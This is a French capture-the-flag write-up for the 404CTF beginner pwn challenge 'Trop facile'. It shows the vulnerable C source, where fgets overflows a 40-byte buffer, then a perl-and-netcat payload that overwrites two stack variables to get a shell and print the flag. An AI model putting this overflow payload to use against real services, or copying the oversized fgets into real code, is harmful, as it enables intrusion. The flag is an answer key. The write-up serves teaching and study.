 ## PWN / Trop facile

<p align="center">
  <img src="img/consignes.png" />
</p>


### Look around

Il s'agit d'un challenge d'introduction au pwn, et on nous fournit le code source ... comme le titre l'indique pas besoin d'aller chercher bien loin !

```c

int check=0xdeadbeef;
int key=0xcafebebe;
char buf[40];

fgets(buf,49,stdin);

if ((check==0xcafebebe) && (key==0xdeadbeef))
 {
   puts("Bon retour à la Hallebarde, agent!\n");
   system("/bin/bash");
   puts("Déconnexion...\n");
 }
else
 {
   printf("Cette sécurité est infranchissable, gloire à la Hallebarde!\n");
 }
```

Deux variables `check` et `key` sont initialisées dans la fonction `main` (et seront donc sur la stack) juste après un buffer qui contiendra la saisie de l'utilisateur.

Pour obtenir un shell, il faut que les valeurs de ces variables soient inversées.

`fgets` lit 49 octets sur stdin pour remplir un buffer de 40 octets, on va donc pouvoir déborder de ce buffer et écraser ce qui se trouve après sur la stack.

Par chance, `check` et `key` sont des entiers, donc 4 octets chacun. Les 9 octets supplémentaires permis par `fgets` seront suffisants pour modifier tout ça.


### Analyse statique

Le binaire est aussi fournit, mais y'a même pas besoin d'ouvrir ghidra ...

### Exploit


```bash
$ (perl -e 'print "A"x40 . "\xef\xbe\xad\xde\xbe\xbe\xfe\xca"'; cat;) | nc challenge.404ctf.fr 32458
Bon retour à la Hallebarde, agent!

ls
compromis
flag.txt
cat flag.txt
404CTF{C_7r0P_F4C113_D3_PWN_14_H411384rD3}
```

Je passe par perl pour le oneliner (ça devient trop messy avec python3 ...) et ne pas oublier le `cat` pour maintenir le socket ouvert. Et bien sûr le tout en little endian.
